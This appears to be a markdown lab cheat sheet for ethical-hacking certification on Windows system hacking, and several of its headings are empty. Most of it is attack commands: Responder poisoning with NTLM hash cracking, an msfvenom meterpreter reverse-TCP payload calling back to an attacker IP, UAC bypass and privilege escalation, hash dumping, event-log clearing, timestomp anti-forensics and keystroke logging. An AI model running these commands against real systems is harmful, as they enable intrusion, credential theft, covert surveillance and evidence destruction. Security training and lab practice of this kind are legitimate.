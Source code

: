 # System Hacking

## Gain access to the system

### Crack the system’s password using Responder

Responder is an LLMNR, NBT-NS, and MDNS poisoner. It responds to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix. By default, the tool only responds to a File Server Service request, which is for SMB.

```
cd Responder
chmod +x Responder.py
./Responder.py -I eth0
```
Goto windows machine
open run
type "\\CEH-Tools"
Go back to the linux machine

The logs are by default stored at ~/logs
```
sudo apt install john-the-ripper
sudo john ~/logs/SMB-NTLM
```
The password is now cracked!

### Audit system passwords using L0phtCrack
As an ethical hacker or penetration tester, you can use the L0phtCrack tool for auditing the system passwords of machines in the target network and later enhance network security by implementing a strong password policy for any systems with weak passwords.

* Windows
* Password Auditing Wizard button
* Follow set up steps
* Enter Admin credentials of the target machine

### Find vulnerabilities on exploit sites



### Exploit client-side vulnerabilities and establish a VNC session
### Gain access to a remote system using Armitage
### Hack a Windows machines with a malicious Office document using TheFatRat

## Privilege Escalation

### 1 Using BeRoot

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.13 -f exe > Desktop/Exploit.exe 
```
```
msfconsole
use /exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhosts host
set lport port
exploit
```
Share this file over lan
After gaining access
```
getuid
```
ensure beroot is on desktop or location locally
```
upload pathofbeRoot.exe 
shell
beRoot.exe
exit
```
#### To check if privilege escalation is successful
```
run post/windows/gather/smart_hashdump
```
```
getsystem -t 1
```

```
background
```
### 2 Using bypassuac_fodhelper 

```
use exploit/windows/local/bypassuac_fodhelper
options
set session 1
set payload windows/meterpreter/reverse_tcp
set LHOST 
set target 0
exploit
```
If a meterpreter shell is opened, then the exploit is successful
```
getuid
getsystem -t 1 
getsystem
run post/windows/gather/smart_hashdump 
```
Clearing Logs (Requires admin access)
```
clearev 
```


While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE (modified, accessed, created, entry) attributes immediately change, which indicates to the file user or owner that someone has read or modified the information.
To leave no trace of these MACE attributes, use the timestomp command to change the attributes as you wish after accessing a file.
```
timestomp secret.txt -v 
timestomp secret.txt -m “02/11/2018 08:10:03”
timestomp secret.txt -v
```
download command downloads a file from the remote machine to the host machine.
```
download file
```
search command that helps you to locate files on the target machine. This type of command is capable of searching through the whole system or can be limited to specific folders.
```
search -f fileextension
```
To capture all the keystrokes of target
```
keyscan_start 
keyscan_dump
```
To check idle time of the user
```
idletime
```
